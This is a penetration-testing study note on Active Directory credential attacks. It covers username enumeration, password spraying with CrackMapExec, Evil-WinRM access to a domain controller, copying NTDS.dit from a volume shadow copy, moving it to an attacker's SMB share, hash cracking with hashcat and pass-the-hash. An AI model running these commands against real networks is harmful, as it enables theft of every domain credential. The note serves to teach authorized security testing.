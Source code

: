 ## Dictionary Attacks Against AD Accounts Using CrackMapExec

Dictionary attack over the network can be noisy, if we proceed with it we can benefit from looking at things like social media for details on employees, and employee directory on the company's website.

Some common conventions of organizations creating employee usernames:

| Username Convention                 | Practical Example for Jane Jill Doe |
| ----------------------------------- | ----------------------------------- |
| `firstinitiallastname`              | jdoe                                |
| `firstinitialmiddleinitiallastname` | jjdoe                               |
| `firstnamelastname`                 | janedoe                             |
| `firstname.lastname`                | jane.doe                            |
| `lastname.firstname`                | doe.jane                            |
| `nickname`                          | doedoehacksstuff                    |

Sometimes an email address structure will give us the username, for example with `jdoe`@`inlanefreight.com` we can see that `jdoe` is the username.

```
A tip from MrB3n: We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails. From there, we can use a script to scrape various social media sites and mashup potential valid usernames. Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith. That way, email messages can get through, but the actual internal username isn’t disclosed, making password spraying harder. Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor. From there, you may be able to discern the username structure and potentially write a small script to create many possible combinations and then spray to see if any come back valid.
```

### Creating a Custom List of Usernames

We can use an automated tool like [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert real names to common username conventions:
```shell-session
$ ./username-anarchy -i <real names file> 
```

### Launching the Attack With CrackMapExec
```shell-session
$ crackmapexec smb <target ip> -u <username> -p <passwords file>
```

## Capturing NTDS.dit

NT Directory Services (NTDS) is the directory service used with AD to find & organize network resources, `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html), this is the primary database file associated with AD and stores all domain usernames, password hashes and other critical schema information.

### Connecting to a DC with Evil-WinRM
```shell-session
$ evil-winrm -i <ip address>  -u <username> -p '<password>'
```

Evil-WinRM connects to a target using the Windows Remote Management service combined with the PowerShell Remoting Protocol to establish a PowerShell session with the target.

### Checking Local Group Membership
```shell-session
*Evil-WinRM* PS C:\> net localgroup
```

To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights.

### Checking User Account Privileges including Domain
```shell-session
*Evil-WinRM* PS C:\> net user <username>
```

### Creating a Shadow Copy of C:

We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location. We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down. VSS is used by many different backup & disaster recovery software to perform operations.

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

### Copying NTDS.dit from the VSS

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

A technique to pass the file to our machine is mentioned in [[Attacking SAM]]

### Transferring NTDS.dit to Attack Host
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\<ip address>\<share name> 
```

### A Faster Method: Using cme to Capture NTDS.dit
```shell-session
$ crackmapexec smb <target ip> -u <username> -p <password> --ntds
```

## Cracking Hashes & Gaining Credentials
```shell-session
$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Pass-the-Hash Considerations
```shell-session
$ evil-winrm -i <target ip> -u  <username> -H "<NT hash>"
```
